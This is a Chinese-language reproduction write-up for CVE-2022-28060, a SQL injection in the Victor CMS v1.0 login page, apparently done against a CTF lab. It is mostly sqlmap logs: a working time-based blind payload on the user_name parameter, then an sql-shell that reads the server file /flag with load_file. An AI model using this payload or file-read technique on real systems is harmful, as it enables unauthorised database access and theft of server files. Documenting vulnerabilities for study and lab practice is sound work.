


# CVE-2022-28060（Victor CMS v1.0 存在sql注入）

<div style="text-align: right;">

date: "2023-01-10"

</div>

## 漏洞描述

- Victor CMS v1.0 /includes/login.php 存在sql注入

## 漏洞原理

- 暂无

## 漏洞复现



登录过程抓包，指定参数`user\_name`进行注入点测试



```bash
C:\Users\手动打码\Desktop\常用漏洞检测工具\漏洞扫描\sqlmap-1.6
λ python3 sqlmap.py -r chanyue.txt --random-agent -p user_name
        ___
       __H__
 ___ ___[(]_____ ___ ___  {1.6#stable}
|_ -| . ["]     | .'| . |
|___|_  [.]_|_|_|__,|  _|
      |_|V...       |_|   https://sqlmap.org

[!] legal disclaimer: Usage of sqlmap for attacking targets without prior mutual consent is illegal. It is the end user's responsibility to obey all applicable local, state and federal laws. Developers assume no liability and are not responsible for any misuse or damage caused by this program

[*] starting @ 11:27:51 /2023-01-10/

[11:27:51] [INFO] parsing HTTP request from 'chanyue.txt'
[11:27:51] [INFO] fetched random HTTP User-Agent header value 'Opera/9.80 (X11; Linux i686; U; ru) Presto/2.2.15 Version/10.00' from file 'C:\Users\手动打码\Desktop\常用漏洞检测工具\漏洞扫描\sqlmap-1.6\data\txt\user-agents.txt'
[11:27:51] [INFO] testing connection to the target URL
[11:27:52] [INFO] testing if the target URL content is stable
[11:27:53] [INFO] target URL content is stable
[11:27:54] [WARNING] heuristic (basic) test shows that POST parameter 'user_name' might not be injectable
[11:27:54] [INFO] testing for SQL injection on POST parameter 'user_name'
[11:27:54] [INFO] testing 'AND boolean-based blind - WHERE or HAVING clause'
[11:27:58] [INFO] testing 'Boolean-based blind - Parameter replace (original value)'
[11:27:58] [INFO] testing 'MySQL >= 5.1 AND error-based - WHERE, HAVING, ORDER BY or GROUP BY clause (EXTRACTVALUE)'
[11:28:02] [INFO] testing 'PostgreSQL AND error-based - WHERE or HAVING clause'
[11:28:05] [INFO] testing 'Microsoft SQL Server/Sybase AND error-based - WHERE or HAVING clause (IN)'
[11:28:08] [INFO] testing 'Oracle AND error-based - WHERE or HAVING clause (XMLType)'
[11:28:12] [INFO] testing 'Generic inline queries'
[11:28:13] [INFO] testing 'PostgreSQL > 8.1 stacked queries (comment)'
[11:28:13] [WARNING] time-based comparison requires larger statistical model, please wait. (done)
[11:28:16] [INFO] testing 'Microsoft SQL Server/Sybase stacked queries (comment)'
[11:28:19] [INFO] testing 'Oracle stacked queries (DBMS_PIPE.RECEIVE_MESSAGE - comment)'
[11:28:21] [INFO] testing 'MySQL >= 5.0.12 AND time-based blind (query SLEEP)'
[11:28:46] [INFO] POST parameter 'user_name' appears to be 'MySQL >= 5.0.12 AND time-based blind (query SLEEP)' injectable
it looks like the back-end DBMS is 'MySQL'. Do you want to skip test payloads specific for other DBMSes? [Y/n]

for the remaining tests, do you want to include all tests for 'MySQL' extending provided level (1) and risk (1) values? [Y/n]

[11:29:19] [INFO] testing 'Generic UNION query (NULL) - 1 to 20 columns'
[11:29:19] [INFO] automatically extending ranges for UNION query injection technique tests as there is at least one other (potential) technique found
[11:29:19] [CRITICAL] unable to connect to the target URL. sqlmap is going to retry the request(s)
[11:29:19] [WARNING] most likely web server instance hasn't recovered yet from previous timed based payload. If the problem persists please wait for a few minutes and rerun without flag 'T' in option '--technique' (e.g. '--flush-session --technique=BEUS') or try to lower the value of option '--time-sec' (e.g. '--time-sec=2')
got a 302 redirect to 'http://eci-2ze8yf267kg7jooigenr.cloudeci1.ichunqiu.com:80/index.php'. Do you want to follow? [Y/n]

redirect is a result of a POST request. Do you want to resend original POST data to a new location? [y/N]

[11:29:40] [INFO] target URL appears to be UNION injectable with 9 columns
injection not exploitable with NULL values. Do you want to try with a random integer value for option '--union-char'? [Y/n]

[11:31:13] [CRITICAL] unable to connect to the target URL. sqlmap is going to retry the request(s)
[11:32:03] [WARNING] if UNION based SQL injection is not detected, please consider forcing the back-end DBMS (e.g. '--dbms=mysql')
[11:32:03] [INFO] checking if the injection point on POST parameter 'user_name' is a false positive
POST parameter 'user_name' is vulnerable. Do you want to keep testing the others (if any)? [y/N]

sqlmap identified the following injection point(s) with a total of 148 HTTP(s) requests:
---
Parameter: user_name (POST)
    Type: time-based blind
    Title: MySQL >= 5.0.12 AND time-based blind (query SLEEP)
    Payload: user_name=1' AND (SELECT 2634 FROM (SELECT(SLEEP(5)))mVlt) AND 'cVAu'='cVAu&user_password=1&login=
---
[11:32:52] [INFO] the back-end DBMS is MySQL
[11:32:52] [WARNING] it is very important to not stress the network connection during usage of time-based payloads to prevent potential disruptions
back-end DBMS: MySQL >= 5.0.12
[11:32:55] [INFO] fetched data logged to text files under 'C:\Users\手动打码\AppData\Local\sqlmap\output\eci-2ze8yf267kg7jooigenr.cloudeci1.ichunqiu.com'
[11:32:55] [WARNING] your sqlmap version is outdated

[*] ending @ 11:32:55 /2023-01-10/
```


延时注入太费时间，直接查找flag，使用语句：`select load_file('/flag')`

```bash
C:\Users\手动打码\Desktop\常用漏洞检测工具\漏洞扫描\sqlmap-1.6
λ python3 sqlmap.py -r chanyue.txt --sql-shell -v
        ___
       __H__
 ___ ___[(]_____ ___ ___  {1.6#stable}
|_ -| . [)]     | .'| . |
|___|_  [(]_|_|_|__,|  _|
      |_|V...       |_|   https://sqlmap.org

[!] legal disclaimer: Usage of sqlmap for attacking targets without prior mutual consent is illegal. It is the end user's responsibility to obey all applicable local, state and federal laws. Developers assume no liability and are not responsible for any misuse or damage caused by this program

[*] starting @ 12:26:05 /2023-01-10/

[12:26:05] [INFO] parsing HTTP request from 'chanyue.txt'
[12:26:06] [WARNING] provided value for parameter 'login' is empty. Please, always use only valid parameter values so sqlmap could be able to run properly
[12:26:06] [INFO] resuming back-end DBMS 'mysql'
[12:26:06] [INFO] testing connection to the target URL
sqlmap resumed the following injection point(s) from stored session:
---
Parameter: user_name (POST)
    Type: time-based blind
    Title: MySQL >= 5.0.12 AND time-based blind (query SLEEP)
    Payload: user_name=1' AND (SELECT 2634 FROM (SELECT(SLEEP(5)))mVlt) AND 'cVAu'='cVAu&user_password=1&login=
---
[12:26:06] [INFO] the back-end DBMS is MySQL
back-end DBMS: MySQL >= 5.0.12
[12:26:06] [INFO] calling MySQL shell. To quit type 'x' or 'q' and press ENTER

sql-shell> select load_file('/flag')
[12:26:57] [INFO] fetching SQL SELECT statement query output: 'select load_file('/flag')'
[12:26:57] [INFO] retrieved:
do you want sqlmap to try to optimize value(s) for DBMS delay responses (option '--time-sec')? [Y/n]

[12:27:33] [INFO] adjusting time delay to 2 seconds due to good response times
flag{0a9cc667
[12:31:33] [ERROR] invalid character detected. retrying..
[12:31:33] [WARNING] increasing time delay to 3 seconds
-29a6-4893-a26f-6017d87b1539}
select load_file('/flag'): 'flag{0a9cc667-29a6-4893-a26f-6017d87b1539}'
sql-shell>
```
